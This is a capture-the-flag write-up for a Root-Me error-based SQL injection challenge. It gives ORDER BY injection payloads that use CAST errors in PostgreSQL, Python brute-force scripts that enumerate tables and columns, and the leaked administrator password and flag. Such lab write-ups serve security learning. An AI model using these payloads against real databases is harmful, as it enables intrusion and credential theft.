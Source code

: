 # SQL injection - Error

**Title**: Exploiting SQL error

**Point:** 40 Points

**Description:** Retrieve administrator’s password.

## Solution:

First, we have to find the SQLi point. Try `1'` in login form but it's not worked. Access **Contents**, we can see the URL `?action=contents&order=ASC` with 2 parameters `action` and `order`. The possible SQLi point is in `order`.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160273512-430dad81-59d4-42d6-8d9c-ad88ed5081f7.png"/> </p>

Try simple payload:

```
123' or 1=1 -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160273597-484fa0ff-2df0-4a09-af08-71046a69f741.png"/> </p>

We can see  full query in this chall and find out our input is appended to `order by page `. With this injecting position, we can't use any directly keyword like `UNION`, `WHERE`, `AND`, `OR` ... because **order by** is often a keyword at the end of the query. With some samples, we can find out the **filter** in back-end server.

Filter: `;`

We can confirm this is an order-by injection with:

```
ASC 
```
**NOTE: With some testing like using unique function like BINARY_CHECKSUM(MySQL), sqlite_verion(SQLite), ... and combine with error message format. We can easily detect this site use PostgreSQL**

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276600-7a6e1798-3548-4db4-b816-526c57061b6a.png"/> </p>


[Reference the exploitation](https://portswigger.net/support/sql-injection-in-the-query-structure). To retrieve administrator’s password, we will take advantage of `CAST` function. This function's work is just simply trying to convert string to a specified type. For example, `CAST('123' as int)` will return `123`. But `CAST('khangtictoc' as int)` will return error message.

**NOTE: With MySQL, if CAST doesn't success. It will return '0'**

Construct payload using `CAST()` and put into the second parameter in `ORDER BY`. Use a query for returning the result when error happens when `CAST()` is triggered. Beside, `CAST()` only have 1 value, make sure our query return 1 rows

In PostgreSQL, there're 2 worth-mention table is `information_schema.tables` and `information_schema.columns` saving information for each database. We would try to retrieve table's info. Payload:

```
asc, cast((select table_name from information_schema.talbes limit 1 offset 0) as int)
```

**NOTE: limit the number of rows by using limit. PostgreSQL don't allow to use any syntax like `LIMIT 1, 2`. We have to use keyword `OFFSET` in our query.**

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160275468-1e7b91a8-b20f-4bfb-84b1-bf4be974da5b.png"/> </p>

We have successfully retrieve the first table `m3mbr35t4bl3` in table. The point is, we just only get 1 values and we have to change the offset to get next value. So another way to do this quick is use **brute-force**. Use python code:

```python
import requests 
i = 0 
while(True):
    request = requests.get("http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=asc, cast((select table_name from information_schema.tables limit 1 offset " + str(i) + ") as int)")
    response = request.text
    content = response[response.find("invalid")::]
    print(content)
    i += 1
```

This loop runs forever until we find a "doubting" table. After running a period of time, I realize the first table `m3mbr35t4bl3` is the correct table all the time   (~ . ~) and other tables belong to system.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160277266-3bcfc109-0f86-458a-be28-2af7ab780bb7.png"/> </p>


Try similar payload to retrieve all the **columns** in `information_schema.columns` which has our target table `m3mbr35t4bl3`

```
asc, cast((select column_name from information_schema.columns where table_name='m3mbr35t4bl3' limit 1 offset 0) as int)
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160275810-71b2800b-ca01-4a7c-81f2-ab61cc7506d4.png"/> </p>

This make me silent for a long time. After searching , I've known that **PostgreSQL** doesn't allow string like `'m3mbr35t4bl3'` as parameter - this will alert error syntax; also if we use double quote `"m3mbr35t4bl3"` instead, it would consider this `m3mbr35t4bl3` as a identifier. So we can use some method to construct a string like using `CHR()` function with ascii code to get the characters and combine with `||` to concat those into a string. Use this python code for quick generating: 

```python 
a = "m3mbr35t4bl3"
result = ""
for i in range (len(a)):
    if i != len(a) - 1:
        result += "chr(" + str(ord(a[i])) + ") || "
    else:
        result += "chr(" + str(ord(a[i])) + ")"
print(result)
```

Output:

```
chr(109) || chr(51) || chr(109) || chr(98) || chr(114) || chr(51) || chr(53) || chr(116) || chr(52) || chr(98) || chr(108) || chr(51)
```

Create payload again, replace `'m3mbr35t4bl3'` with the output above:

```
asc, cast((select column_name from information_schema.columns where table_name=chr(109) || chr(51) || chr(109) || chr(98) || chr(114) || chr(51) || chr(53) || chr(116) || chr(52) || chr(98) || chr(108) || chr(51) limit 1 offset 0) as int)
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276020-77f35d09-9804-4172-90a2-c76d1c472d73.png"/> </p>

It's worked !!! Change the query request in python code to brute-force all columns

```python
import requests 

i = 0 
while(True): 
    request = requests.get("http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=asc, cast((select column_name from information_schema.columns where table_name=chr(109) || chr(51) || chr(109) || chr(98) || chr(114) || chr(51) || chr(53) || chr(116) || chr(52) || chr(98) || chr(108) || chr(51) limit 1 offset " + str(i) + ") as int)")
        
    response = request.text
    content = response[response.find("invalid")::]
    print(content)
    i += 1
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276192-508fd42e-9ce3-4dab-ac1d-80b9ddf68ee1.png"/> </p>


There's only 4 values returned. As we can see, `us3rn4m3_c0l` and `p455w0rd_c0l` is 2 columns that may contain 'username' and 'password'. Use 2 payload to retrieve each pair (username - password) to ensure the correct password.

```
asc, cast((select us3rn4m3_c0l from m3mbr35t4bl3 limit 1 offset 0) as int)
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276342-29a23d49-1915-46c8-ae23-2a6f7e1188e8.png"/> </p>

```
asc, cast((select p455w0rd_c0l from m3mbr35t4bl3 limit 1 offset 0) as int) 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276379-f3ead8b2-ee7b-43fd-8509-776cf375548b.png"/> </p>

**NOTE: This challenge is great ! They often put our target value returned in the first row. If `username` or `password` in the middle or at the end of the table. We will need to brute-force again.**

Final payload http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=asc,%20cast((select%20p455w0rd_c0l%20from%20m3mbr35t4bl3%20limit%201%20offset%200)%20as%20int)

Code Python used: [Brute-force](Brute-force.py) and [Generating string](Generating_string.py)

Flag: **1a2BdKT5DIx3qxQN3UaC**
